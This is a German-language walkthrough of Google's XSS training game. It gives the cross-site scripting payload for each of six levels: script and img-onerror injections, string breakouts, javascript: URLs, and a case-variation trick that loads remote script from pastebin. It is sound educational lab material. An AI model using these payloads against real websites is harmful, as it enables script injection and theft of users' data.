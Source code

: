 ## XSS (Cross-Site-Scripting)
Bei XSS geht es darum "evil code" in eine Webseite einzuschleusen um dadurch dann an Informationen zu kommen, welche nicht für den Benutzer bestimmt sind. Google hat ein [Game](https://xss-game.appspot.com/) dafür entwickelt. Ich beschreibe hier die Level, und wie man zum gewünschten Resultat kommt.



----

### Level 1
Im ersten Level hat man ein Eingabefeld zur Verfügung. Da die Daten, welche in diesem Feld sind, nicht escaped werden, kann man nur 


```
<script>alert(1)</script>
```
eingeben und man erreicht das Ziel.



----

### Level 2
Im zweiten Level hat man ebenfalls ein Eingabefeld. Diesmal kann man eine Ausführung von [JavaScript](/de/wiki/programmiersprachen/javascript) nicht einfach nur durch eingabe des "<script>"-Tags erzielen. Man gibt folgendes ein:
```
<img src="x" onerror="alert(1)">
```
Da man jetzt ein Bild lädt, welches nicht existiert, wird das Script im "onerror" ausgeführt.



----

### Level 3
In diesem Level muss man Code über die [HTTP-GET](https://de.wikipedia.org/wiki/Hypertext_Transfer_Protocol#HTTP-Anfragemethoden) Methode einschleusen. Diesmal muss man direkt nach dem "#" ein " ' " (Hochkomma) platzieren, damit im Webseiten-Code die parseInt() funktion nicht mehr greift. Danach fügt man ebenfalls wieder ein Bild ein, welches auf "onerror" ein Script ausführt.
```
https://xss-game.appspot.com/level3/frame#');<img src="x" onerror="alert(1)">
```



----

### Level 4
Im vierten Level geht es darum einen JavaScript Timer zu manipulieren. Dieser nimmt die Zeit, welche er warten muss, ebenfalls über die [HTTP-GET](https://de.wikipedia.org/wiki/Hypertext_Transfer_Protocol#HTTP-Anfragemethoden) Methode. Diesmal übergibt dem Eingabefeld ein " ' " (Hochkomma). Jetzt wird der Timer unendlich lange zählen (er wird nicht ausgeführt). Der ausgeführte Code sieht dann wie folgt aus:
```
startTimer(''')
```
In diesem Zustand kann man dann den "timer=" Parameter Manipulieren. Diesmal kann man jedoch nicht einfach eine ")" ("timer=')") danach einfügen, weil der ausgeführte Code dann folgendermassen aussehen würde:
```
startTimer('')')
```
Jetzt weiss man, dass man so den Code unterbrechen kann. Da man aber nicht "';" schreiben kann 
`startTimer('';')` 
muss man das ";" codieren. Mit %3B erreicht man das.


```
//Parameter
timer='%3B //code here

//Ausgeführte Funktion
startTimer(''); //code here
```
Mit diesem Wissen, könnte man meinen, wäre XSS jetzt möglich.


Ist es nicht. Ein "alert" befehl wird nicht ausgeführt. Man muss dahinter noch irgend welchen weiteren JavaScript Code einfügen. In diesem Beispiel wird einfach eine Variable (b) definiert. Das Resultat sieht dann wie folgt aus
```
//Parameter
timer=')%3Balert(1)%3Bvar b=('

//Ausgeführte Funktion
startTimer('');alert(1);var b=('');
```
Mit diesem Code ist im vierten Level XSS möglich.



----

### Level 5
In diesem Beispiel wird im HTML ''<a href=""<'' Tag der Wert aus der [HTTP-GET](https://de.wikipedia.org/wiki/Hypertext_Transfer_Protocol#HTTP-Anfragemethoden) Methode geholt. Dies kann man nutzen und führt bei Klicken auf den Button JavaScript Code aus. Erzielt wird das, indem man den (next) Parameter folgendermassen manipuliert:
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
```



----

### Level 6
Dieses Level ist das schwierigste von allen. Man muss über den GET-Parameter schadhaften Code von einem [Hosting](http://pastebin.com/raw/rTRPYeNk) einfügen. Da das JavaScript jedoch nur "https:" nicht zulässt (CaseSensitive) kann man den Parameter der [URL](/de/wiki/url) folgendermassen manipulieren ("htTps"):
```
https://xss-game.appspot.com/level6/frame#htTps://pastebin.com/raw.php?i=15S5qZs0
```







----

[Die Gesamtlösungen (Englisch)](http://blog.dornea.nu/2014/06/02/googles-xss-game-solutions/)
